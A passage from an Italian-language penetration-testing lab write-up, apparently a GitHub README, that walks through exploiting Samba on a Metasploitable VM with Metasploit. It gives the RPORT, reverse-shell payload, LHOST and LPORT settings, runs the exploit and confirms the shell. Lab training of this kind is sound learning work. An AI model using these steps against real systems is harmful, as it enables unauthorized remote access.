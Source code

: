      ```bash
     set RPORT 445
     ```
   - Configurazione del payload:
     
     ```bash
     set payload cmd/unix/reverse
     ```
   - Impostazione dell'IP e della porta di ascolto di Kali Linux:
     
     ```bash
     set LHOST 192.168.50.165
     set LPORT 5555
     ```
5. **Esecuzione dell'exploit**:
   - Comando:
     
     ```bash
     exploit
     ```
   - L'exploit ha avuto successo, fornendo una shell sulla macchina vittima.
   - ![Screenshot del Meterpreter attivo](./Screenshots/MeterpreterSambaMetaspl.png)

---

### 3. 📡 Verifica dell'Accesso alla Macchina Compromessa

1. **Comando eseguito**:
   Una volta ottenuta la shell sulla macchina Metasploitable, è stato eseguito il comando:
   
   ```bash
   ifconfig
   ```
2. **Risultato**:
   - Confermato l'indirizzo IP della macchina vittima: `192.168.50.3`.
